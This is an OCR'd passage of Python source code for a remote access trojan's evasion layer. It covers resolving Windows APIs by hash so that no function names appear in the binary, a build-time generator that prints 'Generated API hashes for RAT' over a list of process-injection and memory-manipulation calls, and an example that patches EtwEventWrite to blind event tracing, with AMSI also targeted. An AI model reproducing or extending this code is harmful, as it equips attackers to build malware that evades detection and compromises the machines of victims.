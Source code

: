 ```python
            # Search all loaded modules
            for mod_name, mod_hash in self.MODULE_HASHES.items():
                module_base = self.get_module_base_hashed(mod_hash)
                if module_base:
                    func_addr = self.get_proc_address_hashed(module_base, function_hash)
                    if func_addr:
                        return func_addr
            return None
        else:
            module_base = self.get_module_base_hashed(module_hash)
            if not module_base:
                return None
            return self.get_proc_address_hashed(module_base, function_hash)


# Hash generation utility (use at build time)
def generate_hash_table():
    """
    Generate hash table for all Windows APIs
    
    Run this ONCE at build time to generate hashes
    Embed hashes in code (not names)
    """
    apis = [
        # ntdll.dll
        "EtwEventWrite", "AmsiScanBuffer", "NtCreateThreadEx",
        "NtWriteVirtualMemory", "NtAllocateVirtualMemory", "NtProtectVirtualMemory",
        "NtQuerySystemInformation", "NtQueryInformationProcess", "NtSetInformationProcess",
        "NtCreateSection", "NtMapViewOfSection", "NtUnmapViewOfSection",
        "NtCreateFile", "NtReadFile", "NtWriteFile", "NtClose",
        "NtDelayExecution", "NtQueueApcThread", "NtResumeThread",
        
        # kernel32.dll  
        "VirtualAlloc", "VirtualProtect", "VirtualFree", "VirtualAllocEx",
        "CreateThread", "CreateRemoteThread", "OpenProcess", "CloseHandle",
        "WriteProcessMemory", "ReadProcessMemory", "GetProcAddress",
        "LoadLibraryA", "LoadLibraryW", "FreeLibrary",
        "CreateFileA", "CreateFileW", "ReadFile", "WriteFile",
        "CreateProcessA", "CreateProcessW", "TerminateProcess",
        
        # Add 200+ more APIs you need
    ]
    
    print("// Generated API hashes for RAT")
    print("const uint32_t API_HASHES[] = {")
    for api in apis:
        hash_val = APIHashResolver.hash_string(api)
        print(f"    0x{hash_val:08X},  // {api}")
    print("};")

# Example usage in advanced_evasion.py
def patch_etw_using_hashing():
    """Updated ETW patch using API hashing"""
    
    resolver = APIHashResolver()
    
    # Resolve without any API names in binary
    ntdll_base = resolver.get_module_base_hashed(0x1EDAB0ED)  # ntdll.dll hash
    etw_addr = resolver.get_proc_address_hashed(ntdll_base, 0x9B4C8D73)  # EtwEventWrite hash
    
    # Now patch it (rest of code same)
    # ...
```